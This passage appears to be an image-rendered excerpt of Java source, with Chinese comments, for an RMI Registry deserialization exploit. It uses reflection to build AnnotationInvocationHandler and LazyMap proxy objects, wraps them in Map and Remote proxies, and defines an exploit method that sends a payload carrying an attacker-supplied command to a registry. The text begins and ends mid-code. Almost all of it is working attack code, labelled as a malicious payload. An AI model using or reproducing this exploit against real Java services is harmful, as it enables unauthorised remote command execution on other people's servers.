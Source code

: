 ```java
      // 获取AnnotationInvocationHandler类对象
      Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

      // 获取AnnotationInvocationHandler类的构造方法
      Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

      // 设置构造方法的访问权限
      constructor.setAccessible(true);

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, lazyMap);
      InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

      // 使用动态代理创建出Map类型的Payload
      final Map mapProxy2 = (Map) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annHandler
      );

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, mapProxy2);
      return (InvocationHandler) constructor.newInstance(Override.class, mapProxy2);
   }

   /**
    * 执行Payload
    *
    * @param registry RMI Registry
    * @param command  需要执行的命令
    * @throws Exception Payload执行异常
    */
   public static void exploit(final Registry registry, final String command) throws Exception {
      // 生成Payload动态代理对象
      Object payload = genPayload(command);
      String name    = "test" + System.nanoTime();

      // 创建一个含有Payload的恶意map
      Map<String, Object> map = new HashMap();
      map.put(name, payload);

      // 获取AnnotationInvocationHandler类对象
      Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

      // 获取AnnotationInvocationHandler类的构造方法
      Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

      // 设置构造方法的访问权限
      constructor.setAccessible(true);

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, map);
      InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, map);

      // 使用动态代理创建出Remote类型的Payload
      Remote remote = (Remote) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, annHandler
      );

      try {
         // 发送Payload
```
